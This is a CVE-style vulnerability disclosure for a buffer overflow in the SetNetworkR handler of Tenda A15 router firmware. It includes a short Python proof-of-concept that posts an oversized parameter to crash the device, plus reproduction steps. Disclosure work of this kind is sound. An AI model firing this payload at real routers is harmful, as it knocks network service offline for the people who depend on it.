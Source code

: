 # CVE submission
Affected products and versions: Tenda A15 V15.13.07.13

Affected object type: Network device (router)

Vulnerability type: buffer overflow

Vulnerability URL: http://xxx/goform/SetNetworkR

Vulnerability description: Tengda router A15 V15.13.07.13 has a buffer overflow vulnerability, which can be exploited by an attacker to cause a denial of service.

Vulnerability Analysis Process:
Router Firmware Download:https://www.tendacn.com/download/detail-3187.html

![image](https://github.com/user-attachments/assets/943995f7-1f9f-465c-9592-bdaa3469b4f0)

The vulnerability occurs in the formSetNetworkR function

![image](https://github.com/user-attachments/assets/daf9be37-5fe4-4890-90f0-9c92f7681d2f)

The program obtains the parameter "HTTP/1.1 200 OKrnContent-Length:%drnContent-type: text/plain; charset=utf-8rnPrag ma: no-cachernCache-Control: no-cachernrn", and then pass the user's input into the websDone function, which will handle the characters entered by the user, and if the input value is too large, it will not be processed.

![image](https://github.com/user-attachments/assets/779de29a-970d-4577-80b9-14644242812f)

Cross-locate the formArpNerworkSet function route to SetNetworkR

Attack payloads：
import requests

url = "http://192.168.85.160/goform/SetNetworkR"
data = {
    "HTTP/1.1 200 OK\r\nContent-Length:%d\r\nContent-type: text/plain; charset=utf-8\r\nPrag ma: no-cache\r\nCache-Control: no-cache\r\n\r\n":b'A'*1000000000
}
res = requests.post(url=url,data=data)
print(res.content)

Repetition：
Set up a simulation environment：

![image](https://github.com/user-attachments/assets/0130c71f-603e-4252-894f-a7b787e035fa)

![image](https://github.com/user-attachments/assets/436b76be-a965-4405-a633-aea2ae377111)

Run the script

![image](https://github.com/user-attachments/assets/bdd34207-e46a-40eb-969a-f09294a4cdfb)

CPU occupancy

![image](https://github.com/user-attachments/assets/59d8dbbc-5cee-4070-9d8d-c0a6ac731589)

The router crashes, the website cannot be accessed, and the access denial attack succeeds

Vulnerability reproduction video:
Link: https://pan.baidu.com/s/1HX0p1F342ZmpUZNdoWCkyw 
Extraction code: rjvp
